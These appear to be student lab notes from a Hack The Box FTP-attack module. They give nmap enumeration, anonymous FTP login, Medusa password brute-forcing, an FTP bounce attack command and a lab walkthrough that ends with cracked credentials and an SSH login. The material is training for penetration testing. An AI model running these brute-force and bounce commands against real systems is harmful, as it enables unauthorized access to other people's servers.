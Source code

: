 ### Enumeration

**nmap**
```shell-session
datboyblu3@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 
```

### Misconfigurations

**Anonymous FTP Authentication**
```
ftp 192.168.1.10
```

	ls and `cd` to move around directories like in Linux. 
	Use `get` to download a single file and `mget` to download multiple files.
	Use `put` for a simple file or `mput` for multiple files.

### Brute Forcing

**Brute Forcing w/ Medusa**

```shell-session
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

*NOTE:*  Password spraying is more effective than brute-forcing. Check out [flamingo](https://github.com/atredispartners/flamingo) for all your password spraying needs

**FTP Bounce Attack**

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

```shell-session
datboyblu3@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
	NOTE: The -b flag conducts the bounce attack

### Questions

**nmap**

```
Nmap scan report for 10.129.203.6
Host is up (0.050s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp   open  domain      ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
2121/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.203.6]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2121-TCP:V=7.94SVN%I=7%D=11/27%Time=656502FD%P=aarch64-unknown-linu
SF:x-gnu%r(GenericLines,8B,"220\x20ProFTPD\x20Server\x20\(InlaneFTP\)\x20\
SF:[10\.129\.203\.6\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20mor
SF:e\x20creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20
SF:creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-11-27T20:58:55
|_  start_date: N/A
|_nbstat: NetBIOS name: ATTCSVC-LINUX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

**FTP NSE Scripts**
```
find / -type f -name ftp* 2>/dev/null | grep scripts
```

**Medusa Brute Forcing**
```
medusa -U users.list -P passwords.list -h 10.129.203.6 -M ftp -n 2121 -L 12
```

Found creds!
```
User: robin Password: 7iz4rnckjsduza7 
```

**SSH into box**
```
ssh robin@10.129.203.6
```


